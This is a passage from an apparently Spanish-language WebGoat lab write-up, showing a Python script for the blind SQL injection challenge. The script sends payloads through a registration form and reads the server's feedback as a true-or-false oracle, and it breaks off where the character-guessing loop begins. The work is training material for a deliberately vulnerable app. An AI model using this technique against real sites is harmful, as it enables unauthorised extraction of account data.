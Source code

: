 ![Solución al reto](/assets/webgoat/A1/1_sql_injection/09_resultado_blind_sqli.png)
_Solución al reto_


```python
import requests

url = "http://csl-devsec.westus2.azurecontainer.io:8080/WebGoat/SqlInjectionAdvanced/challenge"
cookie = "TU-COOKIE"
peticion = requests.Session()
peticion.headers.update({
    "Cookie": cookie
})

def visibilidad(req):
    tmp = req.get(url)
    if(tmp.status_code != 200):
        print("[-] No hay visibilidad con el objetivo.")
        exit()
    else:
        print("[+] Hay visibilidad! ;)")

def verf_resultado(respuesta):
    if("already exists please try" in respuesta["feedback"]):
        return True
    elif("Sorry the solution is not correct, please try again" in respuesta["feedback"]):
        print("[+] Proceso terminado")
        exit()
    return False

def request_vuln(req, payload):
    contenido = {
        "username_reg": payload,
        "email_reg": "test@test.com",
        "password_reg": "123456",
        "confirm_password_reg":"123456"
    }
    
    exploit = req.put(url, data=contenido)
    respuesta = exploit.json()
    
    return verf_resultado(respuesta)

def run():
    abc = "abcdefghijklmnopqrstuvxyz"
```